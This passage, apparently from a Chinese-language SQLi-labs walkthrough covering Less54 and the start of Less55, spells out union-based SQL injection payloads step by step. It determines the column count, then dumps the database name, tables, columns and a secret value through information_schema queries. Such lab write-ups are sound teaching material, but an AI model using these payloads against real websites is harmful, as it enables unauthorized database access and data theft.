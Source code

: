 
> 
<h3>3.4、第三步：判断字段数/回显位</h3>
?id=1' order by 3--+
回显正常

 
?id=1' order by 4--+ 
报错

 说明有3个字段


> 
<h3>3.5、第四步：暴库</h3>
?id=-1' union select 1,database(),3 --+

 


> 
<h3>3.6、第五步：爆表名</h3>
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+

 


<br/>  

> 
<h3>3.7、第六步：爆字段</h3>
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='gxkmo0iwcp' --+

 


> 
<h3>3.9、第八步：爆数据</h3>
?id=-1' union select 1,2,secret_40S4 from challenges.gxkmo0iwcp --+

i2MhncxisHF58BLwGQmqXfd5




---


---


## 四、Less55（GET - challenge - Union -14 queries allowed -Variation 2）

> 
<h3>4.1、简介：（联合查询-错误回显-GET注入）</h3>
请求方法：GET
方法：联合查询+错误回显+数字型注入


> 
<h3>4.2、利用：</h3>
与Less54相比，将'闭合改为)闭合
